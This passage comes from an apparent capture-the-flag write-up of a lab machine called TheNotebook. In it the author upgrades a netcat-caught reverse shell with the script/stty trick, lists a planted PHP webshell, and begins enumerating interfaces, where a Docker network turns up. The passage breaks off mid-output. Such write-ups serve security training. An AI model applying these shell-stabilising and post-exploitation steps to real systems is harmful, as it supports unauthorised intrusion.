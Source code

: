 I’ll upgrade my shell using the `script` / `stty` trick (`python` and `pty` work as well):

```

www-data@thenotebook:~/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@thenotebook:~/html$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@thenotebook:~/html$ 

```

## Shell as noah

### Enumeration

I’m dropped into `~/html` (which is `/var/www/html`), but the only file there is my webshell:

```

www-data@thenotebook:~/html$ ls -l
total 4
-rw-r--r-- 1 root root 35 Jul 22 01:15 a1ba6293840f8a8fb4d5dda74c98c90a.php

```

This is really weird, and I’ll dig into it in [Beyond Root](#beyond-root).

`ifconfig` does show that I’m on the host machine (10.10.10.230), but also that there’s a Docker network:

```

www-data@thenotebook:~/html$ ifconfig
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:91:98:d2:78  txqueuelen 0  (Ethernet)
        RX packets 164784  bytes 22121111 (22.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 198504  bytes 16853611 (16.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.230  netmask 255.255.255.0  broadcast 10.10.10.255
        ether 00:50:56:b9:15:df  txqueuelen 1000  (Ethernet)
        RX packets 771921  bytes 49768345 (49.7 MB)
        RX errors 0  dropped 113  overruns 0  frame 0
        TX packets 777487  bytes 56653765 (56.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisio
...[snip]...

```
